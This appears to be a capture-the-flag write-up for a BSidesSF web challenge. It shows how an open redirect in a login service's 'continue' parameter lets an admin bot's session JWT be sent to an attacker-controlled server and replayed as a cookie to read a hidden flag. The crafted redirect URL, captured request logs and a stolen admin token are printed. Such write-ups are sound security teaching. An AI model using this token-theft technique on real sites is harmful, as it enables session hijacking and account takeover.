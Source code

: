 website here: https://cutesrv-0186d981.challenges.bsidessf.net/

login do the following redirect:

```
https://loginsvc-0af88b56.challenges.bsidessf.net/check?continue=https%3A%2F%2Fcutesrv-0186d981.challenges.bsidessf.net%2Fsetsid
```
view source from page, we can see a link to /flag.txt that is hidden

```
https://cutesrv-0186d981.challenges.bsidessf.net/flag.txt
```
trying to access that file we get Not Authorized from the server

after login with random test/test or registering new account, ```loginsid``` Cookie is established with a JWT token

testing the form:

https://cutesrv-0186d981.challenges.bsidessf.net/submit

we provide one URL we own to see what the submission triggers in the backend:

with https://myserver.io

we receive a GET request:
```json
{"method":"GET","headers":[["Host","myserver.io"],["X-Amzn-Trace-Id","Root=1-60487829-105580ea464b191b09a0b303"],["upgrade-insecure-requests","1"],["user-agent","Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/90.0.4403.0 Safari/537.36"],["accept","text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"],["sec-fetch-site","none"],["sec-fetch-mode","navigate"],["sec-fetch-user","?1"],["sec-fetch-dest","document"],["accept-encoding","gzip, deflate, br"],["accept-language","en-US"]],"body_b64":"","uri":"/","http_version":"V11","client_ip":"35.233.178.227","scheme":"HTTPS"}
```

trying with the redirect url where the app should assign the session id, but the continue will point to our controlled endpoint:

with https://loginsvc-0af88b56.challenges.bsidessf.net/check?continue=https://myserver.io%2Fsetsid

we receive the GET request wth ```authtok``` as a GET parameter of setsid endpoint: ```/setsid?authtok=JWTTOKEN```
```json
{"method":"GET","headers":[["Host","myserver.io"],["X-Amzn-Trace-Id","Root=1-60487958-10173d8c6f54471950b41c8b"],["upgrade-insecure-requests","1"],["user-agent","Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/90.0.4403.0 Safari/537.36"],["accept","text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"],["sec-fetch-site","none"],["sec-fetch-mode","navigate"],["sec-fetch-user","?1"],["sec-fetch-dest","document"],["accept-encoding","gzip, deflate, br"],["accept-language","en-US"]],"body_b64":"","uri":"/setsid?authtok=eyJhbGciOiJFUzI1NiIsInR5cCI6IkpXVCJ9.eyJhdWQiOiJhdXRodG9rIiwiZXhwIjoxNjE4MDQwNzkyLCJpYXQiOjE2MTUzNjIzOTIsImlzcyI6ImxvZ2luc3ZjIiwibmJmIjoxNjE1MzYyMzkyLCJzdWIiOiJhZG1pbiJ9.91USGrgsdu7p-a2r5tjKGwkMfL1JgA0mAlbN3em27UrzBIhKAGo1M6UbHFFCTSftZIRdeYTzDzZgesFrD8pODg","http_version":"V11","client_ip":"35.233.178.227","scheme":"HTTPS"}
```

tamper cookie replacing our ```loginsid``` JWT token with value we got from hijacked ```authtok```

refresh browser

access now to https://cutesrv-0186d981.challenges.bsidessf.net/flag.txt
